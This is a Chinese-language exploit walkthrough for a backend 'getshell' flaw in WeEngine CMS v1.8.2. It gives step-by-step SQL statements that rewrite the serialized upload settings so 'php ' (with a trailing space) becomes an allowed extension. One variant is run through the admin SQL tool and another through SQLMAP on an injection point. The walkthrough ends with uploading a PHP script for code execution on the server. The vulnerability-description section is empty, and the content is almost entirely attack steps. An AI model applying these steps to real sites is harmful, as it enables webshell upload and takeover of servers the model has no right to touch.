 微擎cms 后台getshell
====================

一、漏洞简介
------------

二、漏洞影响
------------

v1.8.2（201812130002）

三、复现过程
------------

站点-附件设置-支持文件后缀

![](resource/微擎cmsv1.8.2后台getshell/media/rId24.png)

在安装完成的时候,数据库里面并没有写入支持文件后缀的值,需要我们进行添加需要的脚本格式php等等

![](resource/微擎cmsv1.8.2后台getshell/media/rId25.png)

直接写上支持的后缀为php是会带入到数据库的,提交完毕以后数据库会显示可上传的值

    a:3:{s:16:"attachment_limit";  
    i:0;s:5:"image";a:5:{s:5:"thumb";i:0;s:5:  
    "width";i:800;s:10:"extentions";  
    a:4:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;s:3:"png";}  
    s:5:"limit";i:5000;s:14:"zip_percentage";s:3:"100";}  
    s:5:"audio";a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}}

### 漏洞利用

写入任意字符

![](resource/微擎cmsv1.8.2后台getshell/media/rId27.png)

    a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
    a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
    a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
    s:3:"png";i:4;s:3:"aaa";}s:5:"limit";i:5000;
    s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
    a:2:{s:10:"extentions";  a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}}

站点-常用工具-数据库-执行SQL语句替换之前插入的值 (记得打开调试模式)

    UPDATE ims_core_settings SET value = replace(value, 'aaa', 'php ')

注意php后有一个空格

or 如果在渗透过程中有SQL注入点的情况下
有用户权限能够上传,尝试直接在SQLMAP执行语句

    UPDATE `ims_core_settings` SET
    `key` = 'upload',
    `value` = 'a:2:{s:5:\"image\";a:4:{s:5:\"thumb\";i:0;  
    s:5:\"width\";i:800;s:10:\"extentions\";  
    a:5:{i:0;s:3:\"gif\";i:1;s:3:\"jpg\";i:2;  
    s:4:\"jpeg\";i:3; s:3:\"png\";i:4;s:3:\"php \";}  
    s:5:\"limit\";i:5000;}s:5:\"audio\";  
    a:2:{s:10:\"extentions\";a:1:{i:0;s:3:\"mp3\";}s:5:\"limit\";i:5000;}}'
    WHERE `key` = 'upload' AND `key` = 'upload' COLLATE utf8mb4_bin;

![](resource/微擎cmsv1.8.2后台getshell/media/rId28.png)

    a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
    a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
    a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
    s:3:"png";i:4;s:3:"php ";}s:5:"limit";i:5000;  
    s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
    a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}}

执行完毕-系统-更新缓存

![](resource/微擎cmsv1.8.2后台getshell/media/rId29.png)

### 上传php文件

以上全部操作完毕,直接在可以上传图片的地方进行上传脚本

![](resource/微擎cmsv1.8.2后台getshell/media/rId31.png)

四、参考链接
------------

> <https://www.vulnbug.com/Exploit/getshell-vulnerability-in-microcomputer-cms-background.html>
